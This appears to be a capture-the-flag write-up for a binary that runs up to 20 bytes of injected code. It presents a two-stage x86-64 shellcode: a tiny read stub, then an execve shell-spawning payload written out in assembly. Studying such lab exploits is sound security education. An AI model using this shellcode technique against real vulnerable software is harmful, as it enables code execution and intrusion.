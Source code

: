 ## Challange
Inject a shellcode and get read the flag. The read is limited to 20 bytes.
## Solution
The binary executes an arbitrary input code which has the maximum size of 20 bytes. This imply that is not possible to spawn directly a shell.
We can do multistage injection:
1. First stage: 20 bytes are enough for a `read`. If we position the `char *buf` pointer after the `read` assembly injection, we then in the second stage input the shellcode, which will be executed immidiatly after the injection `read` is completed.
    ```assembly
    mov rsi, rax
    add rsi, 0x11
    xor rax, rax
    xor rdi, rdi
    mov dl, 0xff
    xor rax,rax
    syscall
    ```
2. Second stage: when the injected read is performed we input the shellcode, which will be written starting from the 17th byte of the buffer (since the first stage code is 16 byte long).

    ```assembly
    jmp binsh
    back:
    xor rax, rax
    mov al, 0x3b
    pop rdi
    xor rsi, rsi
    xor rdx,rdx
    syscall

    binsh:
    call back
    nop
    nop
    ```
